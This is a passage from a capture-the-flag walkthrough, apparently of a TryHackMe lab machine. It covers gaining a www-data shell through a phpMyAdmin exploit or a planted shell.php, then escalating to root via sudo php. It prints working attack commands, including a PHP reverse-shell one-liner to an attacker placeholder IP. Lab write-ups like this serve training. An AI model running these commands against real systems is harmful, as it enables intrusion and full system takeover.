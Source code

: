 ```bash
python3 exploit.py 127.0.0.1 80 / app [REDACTED] /home/ada/shell.sh
```

Be aware that `phpMyAdmin` resides in `/` and not, as the exploit suggests, in `/phpmyadmin`.

Doing so provides us an interactive shell as the *www-data* user.

#### Alternative Path

There is an alternative path for moving laterally to `www-data`. To my knowledge, it has first been documented by [noncenz](https://blog.noncenz.com/posts/Forgotten-Implant/).

As `ada`, files can be written to `/var/www/phpmyadmin/tmp`. As this folder is accessible via the web server, a shell can be executed as `www-data` without using the `phpMyAdmin` exploit: `curl 127.0.0.1/tmp/shell.php`.

#### Pivoting

While here we have executed everything on the machine itself, this is a nice learning opportunity in terms of (internal) pivoting. For example, we could have used `chisel` to access the internal web server from our attacker machine. Another option would be `socat`, as demonstrated nicely by [Sam Witham](https://medium.com/@withamsam/tryhackme-forgotten-implant-walkthrough-3ae3a2f4d7ff) in their walkthrough.

### 2.5 Privilege Escalation to root

Fortunately, *www-data* has very powerful privileges via `sudo`. As can be seen below, the user can run `PHP` with root privileges.

![www-data sudo rights](screenshots/www-data-sudo.png)

This, of course, allows us to easily escalate privileges.

To follow the established pattern of this walkthrough, we will spawn another reverse shell:

```bash
sudo php -r '$sock=fsockopen("<A_IP>",4444);exec("/bin/bash <&3 >&3 2>&3");'
```

![Reverse Shell root](screenshots/reverse-shell-root.png)
